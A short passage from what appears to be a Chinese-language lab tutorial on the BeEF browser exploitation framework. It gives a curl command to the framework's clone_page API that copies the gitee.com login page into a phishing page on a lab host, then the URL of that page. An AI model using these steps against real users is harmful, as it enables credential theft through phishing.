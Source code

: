 ![Alt text](image-38.png)   
`Hook URL` js 的地址，`UI URL`后台登录地址，`RESTful API key:` key。
### 2.5 制作钓鱼网站
```shell
curl -H "Content-Type: application/json; charset=UTF-8" -d '{"url":"https://gitee.com/login","mount":"/login"}' -X POST http://192.168.228.129:3000/api/seng/clone_page?token=78b157b75ca776cffa308758160b8a7deaaa8c09
```
![Alt text](image-41.png)
### 2.6 访问钓鱼网站地址
```url
 http://192.168.228.129:3000/login
```
![Alt text](image-39.png)
